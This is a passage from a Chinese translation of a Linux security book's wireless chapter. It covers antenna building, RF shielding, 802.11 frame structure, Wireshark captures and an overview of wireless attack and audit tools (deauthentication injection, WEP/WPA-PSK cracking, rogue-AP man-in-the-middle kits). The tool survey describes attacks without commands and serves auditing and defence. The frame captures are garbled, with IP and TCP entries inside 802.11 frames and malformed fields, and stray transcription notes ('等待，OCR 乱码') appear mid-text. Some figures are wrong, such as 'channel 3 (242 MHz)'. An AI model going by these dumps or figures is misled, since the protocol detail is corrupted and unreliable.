在插座盒底部开一个小六角形孔，以便让六角螺母嵌入。使用环氧胶将螺母固定。图 8-10 展示了预期的结果。

在插座盒两侧的非弯曲面上各开两个孔。拿过扎带穿过插座盒，环绕在罐天线主体。这会将罐天线固定在盒子上。如果你无法获得单根长扎带，可以采用链式连接多根扎带。剪掉多余扎带的末端以使外观更美观。完成后，将罐天线拧在相机三脚架上，就可以准备就绪！



由于许多制造商不再生产带有外部天线插口的卡（如旧的 Lucent Orinoco 和 Complex WL54G rev.0），罐天线的使用越来越多地转向作为无线中继器扩展 `AP` 范围。然而，你也可以为无线网卡（`WNIC`）改装外部天线插口。你需要拆开基于 PCMCIA 或 USB 的无线网卡的塑料盖，寻找打印在电路板上的天线迹或连接到电路板并延伸到天线外壳的线（主要针对 USB 规格）。然后将连接到 MC、SMA 或其他外部连接器的导线焊接到天线迹上（如果电路板上有 Hi-Rose 测试连接器），并将外部连接器固定在塑料外壳上。对于带有折叠天线的 USB 无线网卡（例如 Linksys WUSB54G），你需要直接接到无线网卡的天线本身，进行线对线的焊接。

# 防御射频利用攻击

与之前提到的黑客视角不同，防御者希望其无线网络信号在网络影响范围（SOI）之外尽可能地衰减。然而，防御者面临着更为艰得的任务，因为他们必须在足够的区域覆盖需求与防止射频泄漏的需求之间取得平衡。考虑到射频不像以太网那样受电缆限制，而在三维空间中自由流动，防御者不得不采取物理措施来衰减信号。

# 238 攻防 Linux：Linux 安全秘密与解决方案

作为防御者，你可以通过在三维空间中放置多个障碍来利用衰减，对特定的无线信号产生反射、折射和吸收效应，并使用高密度材料作为夹层金属办公隔板，以及间距适当的金属丝网，来限制黑客接收你无线信号的能力。铅基漆是另一种防御选择，早期进入者是来自 Force Field Wireless 公司的 DefendAir Radio Shield 漆。抗射频壁纸也在考虑之列，据报道英国航空航天已开发出一种选择性频率表面（FSS）壁纸，可以设置为阻止特定频率而允许其他频率通过。

为了对抗衍射，你可能选择使用短波长（即高频）的射频设备。例如，放弃基于 802.11b/g 的设备，转而使用基于 802.11a 的设备。这是因为随着与距离的增加，信号可能无法绕过遇到的障碍（如墙壁或建筑）。这导致在发射器和接收器之间的障碍物背侧产生一个“阴影区”。*阴影区*（shadow zone）是一个没有射频信号的区域，信号无法绕过障碍。在该区域的攻击者很难与信号源进行任何基于射频的通信。当然，对于企业级部署，使用 802.11b/g 需要成本效益分析，因为市场上的大多数设备都需要兼容 b/g。

# 射频频谱分析

调查特定频率或频率范围的射频活动身份和模式被称为*射频频谱分析*。实际上，这意味着尝试确定在感兴趣的特定频率频段内运行了多少个射频源，以及它们的运行模式或状态。

# 识别频率使用和模式

| 指标 | 评分 |
| :--- | :--- |
| 流行度 | 4 |
| 简单性 | 7 |
| 影响 | 6 |
| 风险评分 | 6 |

频谱分析既是一部分科学，也是一部分推断。虽然在二维图（称为*频谱图*）上测量和描绘射频能量可能是基于客观算法和计算的，但确定哪些设备产生了这些模式以及任何给定设备的距离，更多是逻辑推断和推测，而不是确定性的答案。频谱分析可以确定射频频谱的哪些部分被密集利用，无论是为了目标还是为了规避。

考虑图 8-11 所示的示例。


# 第 8 章：无线网络

# 239



过去两分钟内聚集在 2.412 GHz频频附近的射频模式是由相邻办公室低功率设置的 `AP` 引起的，还是由相邻大楼高功率设置的 `AP` 引起的？或者它根本不是 `AP`？

频谱分析仪（用于在频段内接收、记录和描绘射频能量的设备）只能测量特定时间点的射频能量及其在该时间点的强度。

从那里，我们将探索各种 802.11 感知无线工具，这些工具可以利用 802.11 规范的某些特性。

## 帧分析

| 流行度 | 4 |
| --- | --- |
| 简单性 | 5 |
| 影响力 | 8 |
| 风险等级 | 6 |

黑客非常喜欢 802.11 帧规范，因为它非常适合现场操作。由于管理帧和控制帧不受加密保护，修改或伪造帧并将其注入无线网络是轻而易举的。

与 802.3 以太网不同，802.11 使用带有载波感应多接入与冲突避免机制（`CSMA/CA`），并结合了虚拟载波感应机制（发送请求 `RTS` 和清除发送 `CTS`）以及来自接收端的单播正向确认（`ACK`），用以管理跨空气介质的通信顺序。802.11 介质访问控制层还处理数据包的重传和分段。在基于 802.11 的通信中，站点会等待直到感应到介质后才传输。如果另一个站点正在传输，该站点将推迟传输；否则，它将传输。如果两个站点同时感应到空闲介质并进行传输，而没有意识到另一个站点也在同时传输，就会发生冲突。如果有了像 802.3 以太网那样的冲突检测（CD）机制，两个站点都能看到线路上随后的冲突，并启动随机退避计时器来决定何时重传。在无线局域网（WLAN）中，你不能假设所有站点都能一直听到彼此（这是 CSMA/CD 方案的基本假设），这是不可能的。接收端周围的介质并不可能因为发送端周围的介质空闲而空闲。

因此，802.11 使用带有确认的 `CSMA/CA` 来解决这一问题。每当站点传输时，接收端会检查接收帧的 `CRC` 并发送一个确认（`ACK`）帧。收到 `ACK` 表示发送端接收端已收到该帧。发送端将尝试重传该帧分，直到收到 `ACK` 或达到预设的重传次数后丢弃该帧。`ACK` 仅在单播帧中发送，而不用于多点或广播。`CSMA/CA` 机制受到虚拟载波感应的辅助，其目的是减少两个站点在无法互相听到时发生冲突的概率。发送站点首先请求一个发送请求（`RTS`）控制帧。`RTS` 包含了源、目的和通信持续时间的信息。如果介质空闲，接收端将回复一个清除发送（`CTS`）控制帧，其中包含相同的持续时间信息。所有接收 `RTS` 或 `CTS` 的站点都会更新其内部指示器，称为网络分配矢量（Network Allocation

| 字节 | 2 | 6 | 6 | 6 | 2 | 6 | 0 - 2312 | 4 |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 帧控制 | 持续时间/ID | 地址 1 | 地址 2 | 地址 3 | 序列控制 | 地址 4 | 帧体 | CRC |

| 8-12 802.11 帧结构 | | | | | | | | |

## 第 8 章：无线网络

| B0 | B1 B2 | B3 B4 | B7 B8 | B9 | B10 | B11 | B12 | B13 | B14 | B15 |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 协议版本 | 类型 | 子类型 | ToDS FromDS | 更多分段 | 重试 | 电源管理 | 更多数据 | WEP | 顺序 |

**图 8-13** 帧控制头部结构


ToDS 表示发往 AP 的帧，FromDS 表示由 AP 发送到无线站点的帧。所有承载数据的帧都会将这两个字段中的任一设置为 1。对于管理帧、控制帧以及在自组（ad hoc）模式下运行的站点，这两个字段设置为 0。只有当帧在无线分布系统（WDS，即桥接或中继模式）中从一个 AP 传输到另一个 AP 时，这两个字段才被设置为 1。

如图 8-14 所示，当与地址 1、2、3 和 4 字段结合时，ToDS 和 FromDS 允许站点向给定的 AP（BSSID）发送帧以到达最终目的地址（DA），并插入其 MAC 地址作为源地址（SA）。接收地址（RA）和发送地址（TA）仅当帧在 WDS 中的两个 AP 之间传输时才设置。

通过检查帧头，攻击者可以识别通信是发往无线站点的、是来自或发往 AP 的，还是在两个配置为 WDS 运行的 AP（无论是作为无线中继或无线网桥）之间发送的，并识别特定 AP 的功能。

| To DS | From DS | 地址 1 | 地址 2 | 地址 3 | 地址 4 |
| --- | --- | --- | --- | --- | --- |
| 0 | 0 | DA | SA | BSSID | N/A |
| 0 | 1 | DA | BSSID | SA | N/A |
| 1 | 0 | BSSID | SA | DA | N/A |
| 1 | 1 | RA | TA | DA | SA |

**图 8-14** ToDS、FromDS 以及地址 1-4 字段值矩阵

除了理解给定帧的目的地外，类型和子类型字段提供了分析所需的有用信息，如下表所示。

| 类型描述 | 类型值（位 3 和 2） | 子类型描述 | 子类型值（位 7、6、5 和 4） |
| --- | --- | --- | --- |
| 管理帧 | 00 | 关联请求 | 00 |
| 管理帧 | 00 | 关联响应 | 01 |
| 管理帧 | 00 | 重关联请求 | 02 |
| 管理帧 | 00 | 重关联响应 | 03 |
| 管理帧 | 00 | 探测请求 | 04 |
| 管理帧 | 00 | 探测响应 | 05 |
| 管理帧 | 00 | 预留 | 06 |
| 管理帧 | 00 | 信标 (Beacon) | 07 |
| 管理帧 | 00 | ATIM | 08 |
| 管理帧 | 00 | 分离关联 | 09 |
| 管理帧 | 00 | 身份验证 | 10 |
| 管理帧 | 00 | 取消身份验证 | 11 |
| 管理帧 | 00 | 预留 | 12 |
| 控制帧 | 01 | 预留 | 00 |
| 控制帧 | 01 | 电源保存轮 | 01 |
| 控制帧 | 01 | RTS | 02 |
| 控制帧 | 01 | CTS | 03 |
| 控制帧 | 01 | ACK | 04 |
| 控制帧 | 01 | CF-End | 05 |
| 控制帧 | 01 | CF-End + ACK | 06 |
| 数据帧 | 10 | 数据 | 00 |
| 数据帧 | 10 | 数据 + ACK | 01 |
| 数据帧 | 10 | 数据 + CF-Poll | 02 |
| 数据帧 | 10 | 数据 + ACK + CF-Poll | 03 |
| 数据帧 | 10 | 空空函数（无数据） | 04 |
| 数据帧 | 10 | CF-Ack（无数据） | 05 |
| 数据帧 | 10 | CF-Poll（无数据） | 06 |
| 数据帧 | 10 | 数据 + CF-Poll | 07 |
| 数据帧 | 10 | 预留 | 08-15 |
| 预留 | 11 | 预留 | 00-15 |

## 无线帧分析：实际示例

图 8-15 显示了使用 `Wireshark`（一种包分析器和嗅探器）查看的数据请求帧示例。你可以看到该帧属于管理类，广播此帧的无线站点正在寻找 SSID 为 Mizallar 的 AP，并表示该站点支持最高 11 Mbps 的基本速度（即 802.11b 节点）。

响应该探测请求，具有该站点相同 SSID 的 AP 如图 8-16 所示进行了回复。在这里，你看到 AP 在本质上说：“是的，我听到了。如果你想连接我，我不使用任何形式的帧负载-

# Hacking Exposed Linux：Linux 安全秘籍与解决方案

| 编号 | 时间 | 源 | 目的 | 协议 | 信息 |
|---|---|---|---|---|---|
| 1 | 0.010432 | 2-Com,13:51:09 | 192.168.1.54 | ICMP | 探测响应 seq=547 ttl=64 id="mitzmall1" |

- - 帧 7 (线 42 字节，捕获 42 字节)

  - 类型/子类型: 探测请求 (4)

  - 帧控制: 0x80

  - 版本: 0

  - 类型: 管理 (0)

  - 子类型: 0x48

  - ... 标志: 如果不在 AD-hoc 模式下运行，则不离开 dqm 网络 (至: 0 自: 0) (ID: 0)

  - ... 重试: 帧未被重传

  - ... 数据: 无缓冲数据

  - ... 保护标志: 未保护

- ... 其他标志: 未用

- - 标记参数 (18)

  - SSID 参数集: "mitzmall"

  - 标签编号: 0:1 (SSID 参数集)

  - 标签长度: 10

  - 标签解释: mitzmall

  - 支持的速率: 1:00 2:00 5:00 11:00

  - 标签编号: 1 (支持的速率)

  - 标签长度: 8

  - 标签解释: 支持的速率: 1:00 2:00 5:00 11:00



加密（例如 WEP 或 WPA）。我位于信道 3 (242 MHz)，并支持 802.11g 速率。顺便提一下，我的发射功率为 20 dBm，并且支持欧盟、亚洲和日本允许的额外信道 12 和 13。

STA 的响应如图 8-17 所示：“我听到了，你想使用开放系统认证（Open System authentication）进行身份验证。”注意，认证序列 0x0001 表示从站到 AP。AP 相应的回复的认证序列为 0x0002，表示从 AP 到 STA，如图 8-18 所示。

现在 STA 已经成功通过 AP 的身份验证，STA 发送了关联请求，如图 8-19 所示。如你所见，AP 没有收到 STA 发出的第一个关联请求帧，因此这个特定的帧是一个重传帧。我们还可以看到客户端支持 802.11b，尽管 AP 支持 802.11g，但它将无法达到 802.11g 的速度。

AP 回复如图 8-20 所示的关联响应。由于所有身份验证请求和其他字段（SSID、能力、加密设置等）都与 AP 的配置和能力相匹配且在限制范围内，它允许关联，STA 可以开始发送数据。

# 第 8 章：无线网络

| 编号 | 时间 | 源 | 目的 | 协议 | 信息 |
|---|---|---|---|---|---|
| 1 | 0:00:00.000 | ff:ff:ff:ff:ff:ff | ff:ff:ff:ff:ff:ff | 802.11 | 帧请求 (78 字节) |
| 2 | 0:00:00.052 | ff:ff:ff:ff:ff:ff | ff:ff:ff:ff:ff:ff | 802.11 | 帧响应, "mitzmar1" |

- * 帧 A (线 78 字节，捕获 78 字节)

* 帧内容 (0)

  * 类型/子类型: 探测响应 (5)

  * 版本: 0

  * 子类型: 帧管理 (0)

  * 标志: 0

  * 偏移量: AC-HO 模式下无学习或取消身份认证 (至: 0; Us: 0; U: 0)

  * 重试: 帧未被重传

  * PBR: STA 将被确认

  * 帧体: 未插入数据

  * 重试数据未受保护

  * 校验和: 未发送校验和

- * 持续: 00:00:00.000 - 00:00:00.000

  * 目的: ff:ff:ff:ff:ff:ff - ff:ff:ff:ff:ff:ff

  * 源: ff:ff:ff:ff:ff:ff - ff:ff:ff:ff:ff:ff

  * 长度: 256 字节 (00:00:00.000-00:00:00)

  * 分片编号: 0

* 请求参数

- * 探测请求 (12 字节)

  * 时间戳: 0:00:00.000 [秒]

  * 原因: 0

  * 1: ESS 能力: 发送器为全

  * 2: CFP 能力: 发送器属于一个 bss (0x0000)

  * 3: 支持的速率

    * 00: 短:可共享

    * 01: 长:可共享

  * 02: 信道容量: 捷性未使用

  * 03: 扩展支持功能

  * 04: 短时隙: 未使用

  * 05: DSSS-CCMP: 未使用

  * 06: 延迟确认: 未插入

  * 07: 基础确认: 未插入

- * 标记参数 (42 字节)

  * SSID 参数集: "mitzmall"

  * 标签编号: 0:1 (SSID 参数集)

  * 标签长度: 10

  * 标签解释: mitzmall

  * 支持的速率: 1:00 2:00 5:00 11:00

  * 标签编号: 1 (支持的速率)

  * 标签长度: 8

  * 标签解释: 支持的速率: 1:00 2:00 5:00 11:00


等待，让我与 OCR 文本对齐：

- * 标记参数 (42 字节)

  * 标签编号: 0 (SSID 参数集)

  * 标签: mitzmall

  * 标签长度: 8

  * 支持的速率 (11)

  * 标签编号: 1 (支持的速率)

  * 标签长度: 11

  * 支持的参数 (5 字节)

等待，OCR 乱码：

  * 标签编号: 4 (SSID)

  * 标签长度: 12

  * 国家信息: 国家代码: DE, 环境

  * 标签编号: 7 (国家信息)

  * 标签长度: 6

  * 标签解释: 国家代码: DE, 环境

  * 起信道: 1, 信道: 11, 最大功率: 20 dbm


# Hacking Exposed：Linux 安全秘籍与解决方案

| 编号 | 时间 | 源 | 目的 | 协议 | 信息 |
| ------|---|---|---|---|
| 1 | 00:55:17 | 192.168.1.24 | 10.0.0.19 | TCP | 身份验证, SMB2248, FIN |
| 2 | 00:55:17 | 192.168.1.24 | 10.0.0.19 | TCP | 身份验证, SMB2248, FIN |

- - 线 80 帧 (全部)

- IEEE 802.11

  - 类型: 身份验证 (11)

  - 帧控制: 0x080 (正常)

  - 类型: 管理帧 (0)

  - 子类型:

  - 标志: 0

  - DS 状态: 未离开或网络在 AD-HOC 模式下运行 (至 DS: 0 自: 0 DS: (0x00))

    - . . 更多: 这是最后一个片段

    - . . 帧丢失未重传

  - . . PSH RST: sta 已上线

  - . . 数据: 无缓冲

  - . . 保护标志: 数据未受保护

  - . . 顺序标志: 未严格排序

- 持续: 256

- 目的地址: 10.0.0.19 (0a:00:00:00:13-19)

- 源地址: 192.168.1.24 (c0:a8:01:00:00:18-24)

- 805 id: 2-Com-15-1-0 (00:00:55 13:15: 09)

- 分片编号: 0

- 序列号: 256

- IEEE 802.11 无线管理帧

  - 固定参数 (5 字节)

  - 身份验证算法: 开放系统 (0)

  - 认证码: 0x0001

  - 状态码: 成功 (0x0000)

图 8-17 从站到 AP 的身份验证请求

| 编号 | 时间 | 源 | 目的 | 协议 | 信息 |
| ------|---|---|---|---|---|
| 1 | 00:55:17 | 192.168.1.24 | 10.0.0.19 | TCP | 身份验证, SMB2248, FIN |
| 2 | 00:55:17 | 192.168.1.24 | 10.0.0.19 | TCP | 身份验证, SMB2248, FIN |

- - 线 80 帧 (全部)

- IEEE 802.11

  - 类型: 身份验证 (11)

  - 帧控制: 0x080 (正常)

  - 类型: 管理帧 (0)

  - 子类型:

  - 标志: 0

- DS 状态: 未离开或网络在 AD-hoc 模式下运行 (至 DS: 0 自: 0 DS: (0x00))

  - . . 更多: 这是最后一个片段

  - . . 帧丢失未重传

  - . . PSH RST: sta 已上线

  - . . 数据: 无缓冲

  - . . 保护标志: 数据未受保护

  - . . 顺序标志: 未严格排序

- 持续: 256

- 目的地址: 10.0.0.19 (0a:00:00:00:13-19)

- 源地址: 192.168.1.24 (c0:a8:01:00:00:18-24)

- 805 id: 2-Com-15-1-0 (00:00:55 13:15: 09)

- 分片编号: 0

- 序列号: 256

- IEEE 802.11 无线管理帧

  - 固定参数 (5 字节)

  - 身份验证算法: 开放系统 (0)

  - 认证码: 0x0001

  - 状态码: 成功 (0x0000)

图 8-18 AP 的响应

无线线网络

# Hacking Exposed Linux: Linux 安全秘密与解决方案

| 序号 | 时间 | 源 | 目的 | 协议 | 信息 |
|---|---|---|---|---|---|
| 0 | 00:22:59 | intel_sv.py-04 | 12.0.13.15 | Assoc | 关联请求, ReqID=29, Flow=0, SSID="protchnari", Name="" |
| 1 | 00:23:00 | 12.0.13.15 | intel_sv.py-04 | Assoc | 关联响应, ReqID=29, Ret=1 |

* 类型/输出: 关联响应 (1)

* 帧内容: 0 (正常)

  * 版本: 0

  * 管理帧 (0)

  * 子类型: 0

  * 标志: 0

    * ... = 不离开或网络不在 AD-HOC 中 (目的: 0; 源: 0; B: 0)

    * ... = 无分片；这是最后一个分片

    * ... = 帧和主体将重组

    * ... = RSN-IE STA 将使用

    * ... = 保护标志数据未保护

    * ... = 已启用重试策略

* 持续: 地址:intel_sv.py-04 (00:00-01:59)

* 源地址: 12.0.13.15 (00:00-01:59)

* 目的地址: 12.0.13.15 (00:00-01:59)

* 序列号: 661

* 固定参数:

  * 能力信息:

    * ... = QIP ESS 能力；发射器为 AP

    * ... = QIP 参与能力；锚点在 AP (0x0000)

    * ... = 支持 PSK 功率支持

    * ... = 已启用短帧支持

    * ... = 禁止短帧支持

    * ... = 信道敏捷性未使用

    * ... = 频谱管理去认证(t) 失败

    * ... = 短时服务；未使用

    * ... = (0x00000000-0x00000000) 未实现

    * ... = 自动功率节省模式；允许未实现

    * ... = 块确认 (Block Ack);未实现块确认

    * ... = 延迟确认；未实现延迟块

    * ... = 不支持的能力未实现

  * ... = 立即块；未实现立即块

* 状态码: 00000000000

* 标记参数: (16 字节)

  * 支持率: (1.0) (2.0) (2.5) (5.0) (11.0)

    * 标签编号: 1 (支持率)

    * 标签长度: 

    * 标签解释: 支持率: 1.0 2.0 2.5 5.0 11.0 [比特/秒]

  * 扩展支持率: 6.0 9.0 12.0 15.0 18.0 21.0 24.0 30.0 36.0 48.0 64.0

    * 标签编号: 0 (扩展支持率)

    * 标签长度: 

    * 标签解释: 支持率: 6.0 9.0

图 8-20 来自 AP 站的关联响应

# 防御 802.11 帧分析

通过 RF 频谱帧分析，分析是一种被动活动。攻击者不发送任何 802.11 帧，只是被动地接收来自 AP 或站传输的帧是否流向其处。

在帧分析之前必须进行嗅探阶段，干扰部分帧捕获的一种可能方法是感应经过精心构造的帧，这些帧利用了攻击者所使用的芯片组/驱动程序组合的拒绝服务（DoS）漏洞。然而，这非常困难，至少你必须首先知道攻击者是否在附近（记住，他或她最初是静默运行的），而且如果有任何合法用户运行与攻击者相同的芯片组/驱动程序组合，如果你错误地猜测想要攻击的站的 MAC 地址，你可能会误伤他们。


从现实角度来看，整个 802.11 规范必须重写，重点关注加密帧头和/或对帧发送者执行某种双向认证/验证。然而，这是 IEEE 需要解决的问题，而且在可预见的未来，针对 IEEE 802.11 规范中管理和控制帧的攻击可能会继续并取得相当程度的成功。

# 第 8 章：无线网络

## 无线审计活动与程序

本节涵盖了你在对组织的无线暴露进行审计时，至少应该开展的各种活动。这些活动与执行基于 OSSTMM 的安全测试兼容。虽然攻击者不需要任何无线策略，但在审计期间模拟黑客活动的技术性无线审计员是需要这些，而且作为他们审计的一部分，他们必须处理组织政策，因此为了完整性，这些内容也包含在内。

### 审计无线策略

安全策略是成功的信息安全计划最重要的支柱之一。安全策略在管理组织预期状态方面起着至关重要的作用。尽管如此，无线策略可能是最被忽视的领域之一。许多组织总是忽视这个问题，因为他们觉得不需要它。然而，安全策略的存在在技术上并不能解决通过无安全介质连接的问题，它为实施必要的安全措施提供了一个整体框架，并允许对违规行为进行制裁。如果组织在其物理范围内实施了任何形式的无线基础设施，其无线策略、程序和指南必须扩展到许多可能被忽视的领域。这种立场应明确定义在其物理范围内对任何无线技术的使用。除了常见的 AP 类型设备外，还以无线功能笔记本电脑、PDA 和手机的形式存在。

安全策略是成功的信息安全计划最重要的支柱之一。安全策略在管理组织预期状态方面起着至关重要的作用。

* 访问策略
* 身份认证策略
* 审计责任策略
* 可用性
* 系统和网络维护策略
* 获取策略
* 违规报告
* 审计策略

### 构建基于 Linux 的审计/攻击平台

| 流行程度: | 7 |
| 简单易性: | 6 |
| 影响: | 10 |
| 风险评分: | 8 |

打开任何无线审计/黑客笔记本电脑，可能会发现一些对于执行成功的无线审计必不可少的软件和硬件工具。这些将在后续节中描述。

### 无线嗅探器

所有可用的无线嗅探器可以分为大类：被动嗅探器和探测嗅探器。这两类之间的区别在于被动嗅探器不发送任何流量。它们静静地接收只要无线网卡在 RFMON 模式下运行就能到的无线帧。

相反，探测嗅探器通过主动发送探测包来检测 AP。就此而言，无线站为其配置文件中设置的无线网络发送探测请求帧，并针对周围可能的任何无线网络发送探测帧。听到这些探测请求帧的 AP 将响应探测响应。探测嗅探器也使用这种技术，通过探测周围的 AP，并通过探测响应接收有关所发现 AP 的信息（例如 SSID、信号强度、噪声水平、工作信道和支持的数据以及加密能力）。

被动嗅探器的示例包括 `Kismet`、`Airdump-ng` 和 `Prismstbler`，而探测嗅探器的示例包括 `Wellenreiter` 和基于 Windows 的 `Netstumbler` 工具。

## 无线帧注入器

无线帧注入器允许攻击者自定义其发送的无线帧。例如，他们可以伪造一个取消认证无线帧（deauthentication frame），使其看起来源自接入点（AP），从而将连接到 AP 的无线客户端强制断开连接。

包注入工具可以构造几乎任意类型的 802.11 帧。某些工具可以通过注入信标帧（beacon frames）、探测帧（probes），甚至是认证和关联帧来模拟真实的 AP，欺骗无线客户端认为附近有一个合法的 AP。包注入器的示例包括 `Airplay-ng`、`Proemacker`、`Omerta`、`Void11`、`WLAN-Jack`、`FATA-Jack` 和 `File2Air`。

## WEP/WPA-PSK 破解器

直接针对无线加密破解的工具类专门针对 WEP 和 WPA-PSK。在 WEP 破解领域，工具包括 `WEPCrack`、`Aircrack-ptw-ng` 和 `Airrack-ng`。这些工具依赖攻击者从目标网络收集足够的 WEP 加密数据帧，以便将其传递给如 `Airrack-ng` 这样的破解程序。数据帧的数量取决于所使用的破解方案。较新的 Pychkine-Tews-Mann 方法仅需 40,000 到 80,000 个帧，而 `Airrack-ng` 中的另一种 KoRek 方法则需要 500,000 到 100 万个数据帧。

对于 WPA-PSK 破解，这些工具运行 `PBKDF2` 或基于密码的密钥派生函数 v2.0 数学公式，主密钥用于创建由 SSID 和 SSID 长度以及密码生成的会话密钥（256 位密钥）。用于实际数据加密的临时会话密钥的派生和建立通过四次握手完成，除非授权客户端正尝试与 AP 关联，否则无线嗅探器可以轻松捕获四次握手，并对密码进行离线字典攻击。工具示例包括 `Cowpatty` 和 `Airrack-ng v0.7`。

## 无线中间人攻击 (MITM)

由于无线客户端与 AP 之间存在真空，中间人攻击（MITM）非常普遍且容易实现。

在此类攻击中，工具被用于自动化 MITM 设置过程的大部分步骤。这些工具通常将无线卡设置为监控模式（此前在“黑客设置：Linux 原生芯片组和驱动程序”中介绍过），导致无线网卡（WNIC）激活并响应无线客户端对网络的探测。随后，它会建立 DHCP 服务器、HTTP 服务器和 DNS 服务器，欺骗客户端认为它们正通过合法的 AP 连接到网络服务。

在某些情况下，工具会通过与该网络的次级连接将所有客户端流量导向真实的无线网络，从而使攻击者能够捕获目标客户端的每一个无线帧（因为攻击者充当 AP 本身，不会错过任何帧，因为所有客户端帧都会发送）。无线 MITM 工具的良好示例是 `Airsnarf`（配合取消认证/关联工具使用效果达到最大）。

## 无线客户端审计

在无线审计方面，今天没有哪个机构在进行任何形式的无线客户端审计之前会声称其物理场所内没有部署无线功能。即使机构执行“无无线策略”，如今市面上几乎所有的便携计算设备都带有某种无线功能，攻击者可以使用本章描述的工具对其进行利用。

内置在这些便携设备中的无线芯片组在未使用时经常被处于不安全的“开启”状态。可以使用 `Probemapper`、`Karma` 和 `Hotspot` 等工具在客户端开启时“欺骗”其连接到自己。当这些客户端连接到各个组织的有线网络时，攻击者创建的无线通道可以作为到有线网络的桥接，从而完全破坏无线客户端连接的内部网络。

攻击无线客户端领域的最新进展包括这些无线设备的驱动程序缺陷，允许攻击者只要目标设备开启，即可在这些客户端上执行恶意代码。尽管在编写本文时此类工具尚未公开发，但可能很快就会有人开发并向公共领域发布利用该漏洞的工具。事实上，WEP 通信下行漏洞（我们将在本章结尾详细介绍）也可以被任何具有主机模式能力的无线网卡的人利用，通过利用 Windows Centro 驱动程序中的关联过程处理缺陷，对具有 WEP 加密配置的 Windows 平台无线客户端发起不安全的连接。此外，用于发现这些设备驱动程序缺陷的无线模糊器（wireless fuzzers）也已公开于世。

## 无线模糊器

如上一节所述，无线模糊器有助于发现在 2006 年 DefCon 等几次安全会议上公布的各种设备驱动程序级缺陷。

无线模糊器本质上是产生一系列无线帧，并以配置的速度和数量向无线设备发送的工具。这允许操作员发现这些设备如何处理“畸形”无线数据包。无线模糊器的示例是一个名为 `Fuzz-e` 的工具，它是 `Airbase` 软件包的一部分，可以从 `http://www.802.11mercenary.net` 获取。

## 无线指纹识别

无线安全领域的一个较新进展是指纹识别。指纹识别工具的一个早期示例是 `Johnny`。

### 专业无线审计 LiveCD

大多数用于审计的工具最初是为 Linux 设计的，然后移植到 Windows。幸运的是，有一个工具通过将整个操作系统和各种工具压缩到一张 CD 中解决了这个问题。这类工具通归为 LiveCD，因为整个操作系统和工具环境在 CD 上是“现场”运行的。你只需要将 CD 驱动器并启动即可。

`OS Assistant` 可以在 `http://securitystarts.org` 免费下载。

该工具包具有以下功能：

- 基于 CD 的工具包专门为无线审计设计。
- 支持对 802.11 (WiFi)、蓝牙和 RFID 技术进行审计/黑客。
- 菜单布局和界面针对用户效率和易用性进行了优化（这意味着你不需要到处寻找条目）。
- 所有工具都位于 `/usr/local/apps`，便于访问日志或转储文件。你不需要在笔记本电脑上安装任何软件或修改硬盘。
- 你可以插入 U 盘来保存转储、日志和文件。
- `ActivityMap` 帮助系统旨在帮助家庭和 SOHO 配置对自己的网络进行基础审计。
- CD 自身以及工具包下载网站还提供了 FAQ 和硬件/软件文档。
- 该工具免费下载和使用！

软件工具包包含 GPL 和免费使用的软件，任何人都可以出于合法目的使用，例如帮助对组织的 WLAN 进行渗透测试，或测试家庭网络的漏洞。

你以 `.iso` 格式下载 LiveCD。下载 `.iso` 镜像后，可以使用任何 CD 刻录软件（如 Linux `K3B` 或其他能够刻录 `.iso` 的软件）将镜像写入标准的 700MB/80 分钟 CD 中。

一旦你启动 CD 并进入工具包界面，基于 Web 的界面会自动加载。除了对工具包原理和用途的简要说明外，它还允许用户选择是否运行 `ActivityMap` 帮助系统。

用户在执行某些操作时，例如更改无线卡的 MAC 地址以进行无线帧注入。

`OSWA-Assistant` 工具包的一个新新增功能是 `MoocherHunter` 无线黑客/蹭用者跟踪软件（参见 `http://moochunter.securitystarts.org`）。在适当硬件的支持，该软件可以帮助执法人员和无线网络管理员跟踪可能接入安全和非安全无线网络的未经授权用户。根据定义，蹭用者（moochers）想要使用服务，因此他们面临着选择：要么蹭用并暴露自己的身份，要么不蹭用。该工具仅在特殊许可协议下作为 `OSWA-Assistant` 的部分提供。

### 编写你自己的无线软件

除了使用他人编写并发表的工具外，攻击者可能还需要编写自己的自定义工具。以下内容强调了在编写无线工具时需要注意的一些重要要点。

#### Libpcap

